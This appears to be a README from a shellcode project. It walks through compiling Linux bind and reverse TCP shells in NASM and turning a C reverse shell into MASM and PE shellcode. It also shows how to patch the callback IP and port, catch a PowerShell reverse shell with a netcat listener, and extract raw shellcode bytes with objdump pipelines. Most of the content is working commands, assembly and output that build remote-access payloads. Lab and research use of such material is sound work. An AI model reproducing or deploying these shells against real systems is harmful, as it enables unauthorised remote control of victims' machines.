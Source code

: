 # Linux Assembly Code (NASM)

Commpile the bind shell assembly code:

```sh
nasm -f elf32 linux_bind_tcp_elf32.asm && ld -m elf_i386 linux_bind_tcp_elf32.asm.o -o linux_bind_tcp_elf32
```

Compile the reverse shell assembly code:

```sh
nasm -f elf32 linux_reverse_tcp_elf32.asm && ld -m elf_i386 linux_reverse_tcp_elf32.o -o linux_reverse_tcp_elf32
```

# Windows Assembly Code (MASM)

Compile the example from C to MASM, using MSVC from a console:

```cmd
cl.exe /c /GS- /FA <file>.cpp
```

Use [masm_shc](https://github.com/hasherezade/masm_shc) to clean the obtained MASM:

```cmd
masm_shc.exe <file>.asm <cleaned_file>.asm
```

Compile the resulting file by MASM into a PE 

```cmd
ml.exe <cleaned_file>.asm /link /entry:<my_entry_func> /map /section:.text,EWR
```

Note:
- ml is for 32-bit files
- ml64 for 64 bit files

> Note: You might need to delete the generated file `mllink$.lnk`.

If an error occurs such as:

```cmd
Clean_Source.asm(545) : error A2075:jump destination too far : by 7 byte(s)
```

Edit the line 545 from `Clean_Source.asm` and remove the `SHORT` operand.

## Finding IP and PORT in MASM

Filter for the IP address and port number or filter by the `; Line <NUM>` to find the line number:

```asm
; Line 128
	CALL after_$SG95500
$SG95500 DB	'127.0.0.1', 00H
	ORG $+6
after_$SG95500:
	POP  rax

; 	lea	rax, OFFSET FLAT:$SG95500
	mov	QWORD PTR ip$[rsp], rax
; Line 129
	mov	eax, 443				; 000001bbH
	mov	WORD PTR port$[rsp], ax
```

The instruction `ORG $+6` changes depending on the IP address.

**Port Number**:
When reverse engineering or disassembling the executable. The opcode column is represented in little-endian so `0x1bb` becomes `0xbb01`, which in this case is the port number `443`. The port can be replaced by converting decimal to hex and making it little-endian.

**IP Address**:
Since the IP address is being stored as bytes we can use a debugger such as x64dbg and find the pattern `127.0.0.1` in ASCII. 

![find-windows-shellcode-ip](../../media/images/find_ip.png)

In the `references` window we will be able to see the VA of the instructions. We can follow the instruction in the hexdump and from there we can see the IP address:

![windows-shellcode-ip](../../media/images/ip.png)

The IP can be replaced using ASCII to Hex such as this [converter](https://www.rapidtables.com/convert/number/ascii-to-hex.html).

Here how the IP replaced looks in the debuggeer:

![replace-windows-shellcode-ip](../../media/images/edited_ip.png)

Notice how the bytes are **red** this means that the values were modified. If we setup a listener on the host/node 192.168.21.129 and run the debugger we will receive a reverse shell, as seen here:

```sh
┌──(kali㉿kali)-[~]
└─$ nc -lvp 443
listening on [any] 443 ...
192.168.21.128: inverse host lookup failed: Unknown host
connect to [192.168.21.129] from (UNKNOWN) [192.168.21.128] 49752
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

Install the latest PowerShell for new features and improvements! https://aka.ms/PSWindows

PS C:\Users\user\Desktop\Malware\Project1\Project1> ls
ls


    Directory: C:\Users\user\Desktop\Malware\Project1\Project1

<...SNIP...>
```

## Windows Extract Shellcode

The `.text` section contains the executable code:

```cmd
C:\Users\user>objdump -D -M intel "C:\Users\user\Desktop\Clean_Source.exe" --section=.text
```

Objdump can be installed with [Strawberry Perl](https://strawberryperl.com/) and used with [Git Bash](https://git-scm.com/downloads).

Extract the shellcode:

```sh
user@lab MINGW64 ~/Desktop/Malware/Shellcode
$ objdump -D -M intel "Clean_Source.exe" --section=.text |grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
"\x56\x48\x8b\xf4\x48\x83\xe4\xf0\x48\x83\xec\x20\xe8\x05\x00\x00\x00\x48\x8b\xe6\x5e\xc3\x48\x81\xec\x48\x03\x00\x48\x8d\x8c\x24\x80\x00\x00\xe8\xbe\x04\x00\x00\x0f\xb6\xc0\x85\xc0\x75\x0a\xb8\x01\x00\x00\x00\xe9\x6b\x02\x00\x00\x48\x8d\x94\x24\x30\x01\x00\x48\x8d\x8c\x24\x80\x00\x00\xe8\x5e\x02\x00\x00\x0f\xb6\xc0\x85\xc0\x75\x07\x33\xc0\xe9\x48\x02\x00\x00\xe8\x10\x00\x00\x00\x75\x73\x65\x72\x33\x32\x2e\x64\x6c\x6c\x00\x00\x00\x00\x00\x00\x59\xff\x94\x24\x80\x00\x00\x48\x89\x84\x24\xb0\x00\x00\xba\x98\x01\x00\x00\x48\x8d\x8c\x24\xa0\x01\x00\xe8\x87\x0a\x00\x00\x48\x8d\x94\x24\xa0\x01\x00\x66\xb9\x02\x02\xff\x94\x24\x30\x01\x00\xba\x10\x00\x00\x00\x48\x8d\x4c\x24\x58\xe8\x65\x0a\x00\x00\xc7\x44\x24\x28\x00\x00\x00\xc7\x44\x24\x20\x00\x00\x00\x45\x33\xc9\x41\xb8\x06\x00\x00\x00\xba\x01\x00\x00\x00\xb9\x02\x0

<...SNIP...>
```

Extract port:

```sh
user@lab MINGW64 ~/Desktop/Malware/Project1/Project1
$ objdump -D -M intel "CSource.exe" --section=.text |grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s | grep -o "\\\xbb\\\x01"
\xbb\x01
```

Extract the IP address `127.0.0.1` localhost:

```sh
user@lab MINGW64 ~/Desktop/Malware/Project1/Project1
$ objdump -D -M intel "CSource.exe" --section=.text |grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s | grep -o "\\\x31\\\x32\\\x37\\\x2e\\\x30\\\x2e\\\x30\\\x2e\\\x31\\\x00\\\x00\\\x00\\\x00\\\x00\\\x00"
\x31\x32\x37\x2e\x30\x2e\x30\x2e\x31\x00\x00\x00\x00\x00\x00
```

You can also dump the `.text` section using PE-bear.

Alternatively, use a Hex Editor such as HxD and copy the bytes from the `.text` section (Recommended).

## Cheatsheet

Enclose with quotes:

```sh
$ awk '{ print "\""$0"\""}' test2.txt
"\x56\x48\x8B\xF4\x48\x83\xE4\xF0\x48\x83\xEC\x20\xE8\x05\x00"
"\x00\x00\x48\x8B\xE6\x5E\xC3\x48\x81\xEC\x58\x03\x00\x00\x48"
"\x8D\x8C\x24\x90\x00\x00\x00\xE8\xBC\x04\x00\x00\x0F\xB6\xC0"
```

Append to hex:

```sh
awk '{ print "code += \""$0"\""}' test2.txt
```

